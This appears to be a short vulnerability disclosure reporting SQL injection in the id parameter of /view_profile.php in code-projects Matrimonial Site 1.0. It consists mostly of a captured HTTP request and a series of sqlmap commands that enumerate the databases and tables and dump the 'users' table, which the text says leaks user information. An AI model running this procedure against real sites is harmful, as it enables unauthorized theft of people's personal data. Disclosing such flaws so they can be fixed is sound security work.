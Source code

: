 # tesc
A vulnerability has been discovered in code-projects Matrimonial Site 1.0. The affected file is /view_profile.php?id=1. Modifying the id parameter leads to SQL injection.

Captured request packet 1:

GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive
Using sqlmap tool:

python sqlmap.py -r 1 -p id --batch --dbs
python sqlmap.py -r 1 -p id --batch -D matrimony
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
This will lead to leakage of user information.
